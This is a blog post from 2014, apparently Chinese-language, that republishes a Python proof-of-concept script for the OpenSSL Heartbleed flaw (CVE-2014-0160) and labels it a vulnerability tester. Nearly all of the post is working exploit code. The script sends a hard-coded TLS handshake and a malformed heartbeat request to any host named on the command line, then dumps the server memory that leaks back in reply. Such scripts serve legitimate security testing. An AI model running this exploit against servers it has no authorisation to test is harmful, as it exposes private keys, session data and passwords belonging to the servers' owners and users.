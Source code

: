 title: '测试openssl漏洞脚本 openssl.py'
tags:
  - Python
  - 代码
  - 技术
id: 1052
categories:
  - Python
  - 技术实践
date: 2014-04-12 01:11:03
---

<pre class="brush:python;">
# Usage: python openssl.py domainname

#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage=&#39;%prog server [options]&#39;, description=&#39;Test for SSL heartbeat vulnerability (CVE-2014-0160)&#39;)
options.add_option(&#39;-p&#39;, &#39;--port&#39;, type=&#39;int&#39;, default=443, help=&#39;TCP port to test (default: 443)&#39;)

def h2bin(x):
    return x.replace(&#39; &#39;, &#39;&#39;).replace(&#39;\n&#39;, &#39;&#39;).decode(&#39;hex&#39;)

hello = h2bin(&#39;&#39;&#39;
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
&#39;&#39;&#39;)

hb = h2bin(&#39;&#39;&#39; 
18 03 02 00 03
01 40 00
&#39;&#39;&#39;)

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = &#39; &#39;.join(&#39;%02X&#39; % ord(c) for c in lin)
        pdat = &#39;&#39;.join((c if 32 &lt;= ord(c) &lt;= 126 else &#39;.&#39; )for c in lin)
        print &#39;  %04x: %-48s %s&#39; % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = &#39;&#39;
    remain = length
    while remain &gt; 0:
        rtime = endtime - time.time() 
        if rtime &lt; 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print &#39;Unexpected EOF receiving record header - server closed connection&#39;
        return None, None, None
    typ, ver, ln = struct.unpack(&#39;&gt;BHH&#39;, hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print &#39;Unexpected EOF receiving record payload - server closed connection&#39;
        return None, None, None
    print &#39; ... received message: type = %d, ver = %04x, length = %d&#39; % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print &#39;No heartbeat response received, server likely not vulnerable&#39;
            return False

        if typ == 24:
            print &#39;Received heartbeat response:&#39;
            hexdump(pay)
            if len(pay) &gt; 3:
                print &#39;WARNING: server returned more data than it should - server is vulnerable!&#39;
            else:
                print &#39;Server processed malformed heartbeat, but did not return any extra data.&#39;
            return True

        if typ == 21:
            print &#39;Received alert:&#39;
            hexdump(pay)
            print &#39;Server returned error, likely not vulnerable&#39;
            return False

def main():
    opts, args = options.parse_args()
    if len(args) &lt; 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print &#39;Connecting...&#39;
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print &#39;Sending Client Hello...&#39;
    sys.stdout.flush()
    s.send(hello)
    print &#39;Waiting for Server Hello...&#39;
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print &#39;Server closed connection without sending Server Hello.&#39;
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print &#39;Sending heartbeat request...&#39;
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == &#39;__main__&#39;:
    main()</pre>

	&nbsp;